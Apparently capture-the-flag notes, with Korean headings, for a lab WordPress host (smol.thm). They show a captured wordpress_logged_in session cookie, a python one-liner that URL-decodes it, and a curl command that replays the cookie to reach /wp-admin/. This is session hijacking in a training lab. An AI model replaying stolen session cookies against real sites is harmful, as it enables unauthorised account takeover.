 # 쿠키 원본 -> 총 2개의 key value

Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_45a7e4c82b517c5af328feabce4d0187=wpuser%7C1753668949%7CcPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv%7Cccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070

# 디코딩

echo "wpuser%7C1753668949%7CcPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv%7Cccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070" | python3 -c "import sys, urllib.parse; print(urllib.parse.unquote(sys.stdin.read()))"

# 결과 -> 분석용

wpuser|1753668949|cPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv|ccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070

# 쿠키 원본가지고 요청하기

curl -i -L \
 -H "Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_45a7e4c82b517c5af328feabce4d0187=wpuser|1753668949|cPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv|ccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070" \
 -H "User-Agent: Mozilla/5.0" \
 http://www.smol.thm/wp-admin/
